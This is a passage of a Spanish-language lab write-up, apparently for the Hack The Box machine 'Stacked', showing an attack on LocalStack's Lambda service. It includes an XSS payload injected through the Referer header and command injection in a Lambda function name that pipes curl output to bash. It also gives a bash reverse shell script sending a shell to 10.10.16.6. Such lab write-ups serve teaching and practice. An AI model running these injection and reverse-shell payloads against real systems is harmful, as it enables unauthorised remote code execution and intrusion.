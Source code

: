 ```null
    "RevisionId": "3c4a0f81-ef24-4192-8441-efece9f64a02",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}
```

Ejecuto la función y almaceno su output en un archivo

```null
aws lambda invoke --endpoint-url="http://s3-testing.stacked.htb/" --function-name 'test' output.txt
{
    "StatusCode": 200,
    "LogResult": "",
    "ExecutedVersion": "$LATEST"
}
```

```null
cat output.txt
"Testing"
```

Para ejecutar comandos, hay que abusar del parámetro ```functionName```, tal y como había visto en el [CVE-2021-32090](https://nvd.nist.gov/vuln/detail/CVE-2021-32090), pero solo se ejecutan a través del panel de Administración de ```LocalStack```. Puedo abusar del XSS para que con ```document.location``` redirigir al usuario a una página concreta. En el ```docker-compose.yml``` había visto que el puerto 8080 es donde está montado a lo que quiero acceder

```null
ports:
  - "127.0.0.1:443:443"
  - "127.0.0.1:4566:4566"
  - "127.0.0.1:4571:4571"
  - "127.0.0.1:${PORT_WEB_UI-8080}:${PORT_WEB_UI-8080}"
```

Modifico la cabecera ```Referer``` para la ocasión

```null
Referer: <script>document.location="http://127.0.0.1:8080"</script>
```

Inyecto el comando en la función ```Lambda```

```null
aws lambda create-function --endpoint-url="http://s3-testing.stacked.htb/" --function-name 'test; curl 10.10.16.6|bash' --runtime nodejs10.x --zip-file fileb://test.zip --handler test.handler --role testing
```

Creo un archivo ```index.html``` que se encargue de enviar una reverse shell

```null
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.6/443 0>&1'
```
